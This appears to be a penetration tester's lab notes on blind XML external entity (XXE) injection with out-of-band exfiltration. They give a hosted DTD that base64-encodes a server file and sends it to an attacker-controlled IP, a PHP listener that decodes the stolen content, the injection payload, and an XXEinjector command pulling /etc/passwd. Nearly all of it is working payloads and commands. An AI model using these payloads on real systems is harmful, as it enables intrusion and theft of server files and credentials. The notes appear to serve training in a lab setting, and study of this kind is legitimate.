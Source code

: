 {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}

when we cannot see the output of any XML entities nor do we get any PHP errors displayed

Out of Band Data Exfiltration  -> hosted DTD file in our machine and made the web application connect to us 

make a dtd file and then host it
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.79:8000/?content=%file;'>">
```


PHP script
automatically detects encoded file content, decodes it, and outputs it to the terminal 
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

host it on our server
```
php -S 0.0.0.0:8000
```

then we do this
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Automated
```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

we take the HTTP request from burp and then write XXEINJECT after the position locator
```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```


```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

then we read the logs: 

```shell-session
cat Logs/10.129.201.94/etc/passwd.log 
```